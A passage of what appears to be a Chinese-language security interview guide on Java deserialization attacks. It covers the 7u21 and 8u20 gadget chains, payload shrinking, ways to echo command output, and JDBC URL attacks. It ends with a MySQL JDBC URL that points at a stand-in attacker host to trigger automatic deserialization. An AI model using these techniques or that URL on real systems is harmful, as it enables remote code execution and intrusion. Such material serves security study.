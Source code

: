可以看到伪代码最后在`map`中`put`了某个元素，这是为了处理哈希碰撞的问题。`TemplatesImpl`没有重写`hashcode`直接调用`Object`的方法。而代理对象的`hashcode`方法也是会先进入`invoke`方法的，跟入`hashCodeImpl`方法看到是根据传入参数`HashMap`来做的，累加每一个`Entry`的`key`和`value`计算得出的`hashcode`。通过一些运算，可以找到符合条件的碰撞值



### 谈谈8U20反序列化（★★★★★）

这是7U21修复的绕过

在`AnnotationInvocationHandler`反序列化调用`readObject`方法中，对当前`type`进行了判断。之前POC中的`Templates`类型会导致抛出异常无法继续。使用`BeanContextSupport`绕过，在它的`readObject`方法中调用`readChildren`方法，其中有`try-catch`但没有抛出异常而是`continue`继续

所以这种情况下，就算之前的反序列化过程中出错，也会继续进行下去。但想要控制这种情况，不可以用正常序列化数据，需要自行构造畸形的序列化数据



### 了解缩小反序列化Payload的手段吗（★★★）[+]

首先最容易的方案是使用Javassist生成字节码，这种情况下生成的字节码较小。进一步可以用ASM删除所有的LineNumber指令，可以更小一步。最终手段可以分块发送多个Payload最后合并再用URLClassLoader加载



### 谈谈实战中命令执行有哪些回显的办法（★★★★）[+]

首先想到的办法是`dnslog`等技术进行外带，但必须出网，有限制

然后类似内存马的思路，针对指定中间件找`response`对象写入执行结果

尝试写文件，往`web`目录下写，例如`xx.html`可以访问到即可

将命令执行结果抛出异常，然后用`URLClassLoader`加载，达到报错回显

Y4er师傅提到的自定义类加载器配合RMI的一种方式



### 有没有了解过针对`linux`的通杀的回显方式（★★★★）

获取本次`http`请求用到`socket`的文件描述符，然后往文件描述符里写命令执行的结果

但鸡肋的地方在于需要确定源端口，才可以使用命令查到对应的文件描述符，存在反代可能有问题



### 是否存在针对`windows`的通杀的回显方式（★★★★）

原理类似`linux`的通杀回显，在`windows`中`nio/bio`中有类似于`linux`文件描述符这样的句柄文件

遍历`fd`反射创建对应的文件描述符，利用`sun.nio.ch.Net#remoteAddress`确认文件描述符有效性，然后往里面写数据实现回显



### 是否了解JDBC Connection URL攻击（★★★）

如果我们可以控制`JDBC URI`就可将`JDBC`连接地址指向攻击者事先准备好的恶意服务器，这个服务器可以返回恶意的序列化数据

指定`autoDeserialize`参数为`true`后`MySQL`客户端就可以自动反序列化恶意Payload

使用`ServerStatusDiffInterceptor`触发客户端和服务端的交互和反序列化

```text
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```
